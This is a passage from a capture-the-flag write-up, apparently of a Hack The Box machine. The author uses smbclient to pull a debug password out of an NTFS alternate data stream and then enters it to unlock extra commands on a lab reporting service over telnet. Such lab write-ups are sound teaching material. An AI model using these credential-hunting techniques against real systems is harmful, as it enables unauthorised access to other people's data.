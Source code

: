     
    smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
    altname: DEBUGM~1.TXT
    create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
    access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
    write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
    change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
    attributes: A (20)
    stream: [::$DATA], 0 bytes
    stream: [:Password:$DATA], 15 bytes
    

There’s an alternative data stream (ADS) there. I’ve run into these on HTB
before. In both [Hackback](/2019/07/06/htb-hackback.html#roottxt) and
[Dropzone](/2018/11/03/htb-dropzone.html#alternative-data-streams) the root
flag was in an ADS. In [Bighead](/2019/05/04/htb-bighead.html#roottxt) it was
the Keepass database. I can get it with `smbclient` just by specifying the
entire stream name with a `get`:

    
    
    smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password"
    getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password of size 15 as Debug Mode Password.txt:Password (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
    

Locally, I can get the password:

    
    
    root@kali# cat Debug\ Mode\ Password.txt\:Password 
    WBQ201953D8w 
    

### Revisiting HQK Reporting

I’ll connect again to HQK (using `rlwrap` to get arrow keys), and enter the
debug creds. They work, and new commands are unlocked:

    
    
    root@kali# rlwrap telnet 10.10.10.178 4386
    Trying 10.10.10.178...
    Connected to 10.10.10.178.
    Escape character is '^]'.
    
    HQK Reporting Service V1.2
    
    > debug WBQ201953D8w
    
    Debug mode enabled. Use the HELP command to view additional commands that are now available
    > help
    
    This service allows users to run queries against databases using the legacy HQK format
    
    --- AVAILABLE COMMANDS ---
    
    LIST
    SETDIR <Directory_Name>
    RUNQUERY <Query_ID>
    DEBUG <Password>
    HELP <Command>
    SERVICE
    SESSION
    SHOWQUERY <Query_ID>
    